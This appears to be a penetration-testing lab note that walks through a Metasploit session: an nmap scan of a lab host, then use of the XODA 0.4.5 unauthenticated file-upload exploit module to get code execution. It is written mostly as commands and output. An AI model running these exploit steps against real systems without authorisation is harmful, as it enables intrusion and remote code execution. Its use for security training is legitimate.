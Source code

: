 # 🔬 Meterpreter - MSF

<pre class="language-bash"><code class="lang-bash"><strong>ip -br -c a
</strong>service postgresql start &#x26;&#x26; msfconsole -q
</code></pre>

```bash
db_status
setg RHOSTS 192.78.84.3
setg RHOST 192.78.84.3
workspace -a meterpreter
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.78.84.3
```

```bash
80/tcp   open http Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open mysql MySQL 5.5.47-0ubuntu0.14.04.1
```

```bash
curl http://192.78.84.3
```

<figure><img src="../../../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

```bash
mf5 > search xoda
mf5 > use exploit/unix/webapp/xoda_file_upload
mf5 > info
# Description:
#   This module exploits a file upload vulnerability found in XODA 
#   0.4.5. Attackers can abuse the "upload" command in order to upload a 
#   malicious PHP file without any authentication, which results in 
#   arbitrary code execution. The module has been tested successfully on 
#   XODA 0.4.5 and Ubuntu 10.04.
mf5 > set TARGETURI /
mf5 > run
```

